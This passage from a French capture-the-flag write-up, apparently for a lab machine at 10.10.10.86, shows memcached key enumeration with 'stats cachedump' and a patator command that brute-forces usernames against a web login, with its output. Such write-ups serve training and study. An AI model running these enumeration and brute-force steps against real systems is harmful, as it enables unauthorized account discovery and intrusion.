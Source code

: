 ```plain
STAT items:26:age 74
STAT items:26:evicted 0
STAT items:26:evicted_nonzero 0
STAT items:26:evicted_time 0
STAT items:26:outofmemory 0
STAT items:26:tailrepairs 0
STAT items:26:reclaimed 0
STAT items:26:expired_unfetched 0
STAT items:26:evicted_unfetched 0
STAT items:26:crawler_reclaimed 0
STAT items:26:crawler_items_checked 0
STAT items:26:lrutail_reflocked 0
END
```

Avec les commandes *stats cachedump 16 0* et *stats cachedump 26 0* on obtient respectivement les noms de clés *stock* et *users*.  

Malheureusement les commandes *get users* et *get stock* ne semblaient rien remonter (juste *END* qui signifie que les clés sont vides).  

J'ai donc décidé de revenir sur le port 80 pour brute-forcer les noms d'utilisateurs possibles :  

```plain
$ patator http_fuzz url='http://10.10.10.86/login' method=POST body='username=FILE0&password=nawak&submit=Login' 0=top500.txt -x ignore:clen=543
15:26:03 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-12 15:26 CET
15:26:03 patator    INFO -
15:26:03 patator    INFO - code size:clen       time | candidate                          |   num | mesg
15:26:03 patator    INFO - -----------------------------------------------------------------------------
15:26:03 patator    INFO - 200  714:542        0.045 | angela                             |    51 | HTTP/1.1 200 OK
15:26:04 patator    INFO - 200  714:542        0.077 | dallas                             |   152 | HTTP/1.1 200 OK
15:26:04 patator    INFO - 200  714:542        0.056 | florida                            |   188 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.070 | london                             |   278 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.055 | nicholas                           |   329 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.057 | nicole                             |   330 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.051 | paris                              |   339 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.041 | princess                           |   360 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.066 | sammy                              |   389 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.049 | samson                             |   390 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.042 | sierra                             |   405 | HTTP/1.1 200 OK
15:26:06 patator    INFO - 200  714:542        0.055 | summer                             |   431 | HTTP/1.1 200 OK
15:26:06 patator    INFO - 200  714:542        0.059 | thomas                             |   446 | HTTP/1.1 200 OK
15:26:06 patator    INFO - 200  714:542        0.044 | winston                            |   481 | HTTP/1.1 200 OK
15:26:06 patator    INFO - Hits/Done/Skip/Fail/Size: 14/499/0/0/499, Avg: 150 r/s, Time: 0h 0m 3s
```
